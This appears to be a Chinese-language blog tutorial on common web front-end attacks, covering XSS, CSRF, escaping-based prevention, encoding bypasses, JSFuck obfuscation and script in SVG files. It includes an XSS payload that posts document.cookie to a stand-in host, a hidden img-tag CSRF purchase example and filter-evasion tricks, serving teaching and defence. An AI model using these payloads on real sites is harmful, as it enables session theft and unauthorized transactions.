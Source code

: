 ```yaml
---
title: "常见的 web 前端攻击方式有哪些？"
permalink: "/archives/26487"
date: "2020-10-29"
categories: 
  - "开发运行环境"
  - "默认"
---
```


安全

- XSS 跨站请求攻击（反射型，存储型，DOM型）
- XSRF 跨站请求伪造

XSS 跨站请求攻击

比如：一个博客网站，我发表一篇博客，其中嵌入 <script />脚本，获取 cookie，发送到我的跨域服务器，当有人查看这篇文章，我可以获取访问者的 cookie

``` js
<p>模拟 XSS 跨站，获取 cookie</p>
<script> alert(document.cookie);$.post('test.com', {cookie: document.cookie}) </script>
```

XSS 预防（也可以使用 XSS 工具，如 [https://www.npmjs.com/package/xss](https://www.npmjs.com/package/xss)）

- 替换特殊字符，如 < 变成`&lt;` > 变成`` `&gt;` ``
- `<script>` 变成 `&lt;script&gt;` ,这样不会作为脚本执行
- 建议前后端都替换

``` js
&lt;script&gt; alert(document.cookie);$.post('test.com', {cookie: document.cookie}) &lt;/script&gt;
```

CSRF/XSRF 跨站请求伪造

比如：你正在购物，看中了某个商品，商品 id 是 100，付款接口：xxx.com/pay?id=100，但没任何验证，攻击者想购买 id 为 200 的商品，通过发送邮件隐藏 `<img src="xxx.com/pay?id=200" />`，一旦查看邮件，就购买了 id 为 200 的商品

XSRF 预防（现在很少见了）

- 使用 post 接口
- 增加验证，例如密码，短信验证码，指纹等

**其他**

为协议：

- Data 为协议：data:text/html;base64,PHNjcsdd=
- JavaScript为协议：javascript:alert(1)

Unicode 编码及 URL 编码绕过：

- JavaScript 编码：&#x，\\u 都可以用来表示一串 Unicode 编码，如：\\u0074 \\u0065 \\u0073 \\u0074 或 &#x0074 &#x0065 &#x0073 &#x0074
- HTML实体编码：&#116 &#101 &#115 &#116
- URL编码：%74 %65 %73 %74

xss 蠕虫，比如： myspace蠕虫攻击

xss 编码混淆，利用浏览器解析编码的顺序 js <- url <- html，比如： jsFuck 使用 6 个字符 \[\]()!+ 来编写

``` js
false       =>  ![]
true        =>  !![]
undefined   =>  [][[]]
NaN         =>  +[![]]
0           =>  +[]
1           =>  +!+[]
2           =>  !+[]+!+[]
10          =>  +[[+!+[]]+[+[]]]
Array       =>  []
Number      =>  +[]
String      =>  []+[]
Boolean     =>  ![]
Function    =>  []["filter"]
run         =>  []["filter"]["constructor"]( CODE )()
eval        =>  []["filter"]["constructor"]("return eval")()( CODE )
window      =>  []["filter"]["constructor"]("return this")()
```

SVG 文件中插入 JS 代码

``` js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="100%" height="100%" version="1.1" xmlns="http://www.w3.org/2000/svg">
	<script>
		alert(11)
	</script>
</svg>
```
